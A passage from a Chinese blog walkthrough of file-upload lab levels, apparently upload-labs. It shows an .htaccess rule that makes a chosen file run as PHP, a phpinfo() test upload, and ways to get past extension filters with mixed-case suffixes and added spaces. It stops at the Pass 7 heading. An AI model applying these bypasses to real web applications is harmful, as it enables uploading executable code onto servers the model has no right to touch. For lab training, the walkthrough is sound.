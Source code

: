 ```
<FilesMatch "ceshi">
SetHandler application/x-httpd-php
</FilesMatch>   
```

这时先上传一个.htaccess文件

![在这里插入图片描述](https://img-blog.csdnimg.cn/43e981fb297248a7a89a12dade4326f7.png?x-oss-process=image/watermark,type_ZHJvaWRzYW5zZmFsbGJhY2s,shadow_50,text_Q1NETiBAVExfX2dob3N0,size_20,color_FFFFFF,t_70,g_se,x_16)

然后再上传ceshi.txt，内容为

```
<?php
phpinfo();
?>
```

![在这里插入图片描述](https://img-blog.csdnimg.cn/b6473d4ea7b147c0afa0871f4a730ef7.png?x-os-process=image/watermark,type_ZHJvaWRzYW5zZmFsbGJhY2s,shadow_50,text_Q1NETiBAVExfX2dob3N0,size_20,color_FFFFFF,t_70,g_se,x_16)

得到一个地址，访问它

![在这里插入图片描述](https://img-blog.csdnimg.cn/27d738ab0e01487bb905b657cdf9e2d7.png?x-os-process=image/watermark,type_ZHJvaWRzYW5zZmFsbGJhY2s,shadow_50,text_Q1NETiBAVExfX2dob3N0,size_20,color_FFFFFF,t_70,g_se,x_16)

回显了phpinfo，说明上传成功

## Pass 5（后缀大小写）

查看源码，发现.htaccess也被过滤了，但是少了这句话，所以我们可以将后缀大小写混合绕过

```
 $file_ext = strtolower($file_ext); //转后缀换为小写
```

成功上传

![在这里插入图片描述](https://img-blog.csdnimg.cn/f79c636930354edfa7ab1ff5555f8b01.png?x-os-process=image/watermark,type_ZHJvaWRzYW5zZmFsbGJhY2s,shadow_50,text_Q1NETiBAVExfX2dob3N0,size_20,color_FFFFFF,t_70,g_se,x_16)

## Pass 6（空格绕过）

比第五关少了这句话，所以可以将后缀名后面加上个空格绕过

```
 $file_ext = trim($file_ext); //将首尾去除空格
```

成功上传

![在这里插入图片描述](https://img-blog.csdnimg.cn/8c449d4e7dd04263b5bc794e7a02d46a.png?x-os-process=image/watermark,type_ZHJvaWRzYW5zZmFsbGJhY2s,shadow_50,text_Q1NETiBAVExfX2dob3N0,size_20,color_FFFFFF,t_70,g_se,x_16)

当然，前面加个空格也是可以的

![在这里插入图片描述](https://img-blog.csdnimg.cn/ffc6296e9cd4435f94cc71de23741c30.png?x-os-process=image/watermark,type_ZHJvaWRzYW5zZmFsbGJhY2s,shadow_50,text_Q1NETiBAVExfX2dob3N0,size_20,color_FFFFFF,t_70,g_se,x_16)

## Pass 7（后缀加点绕过）
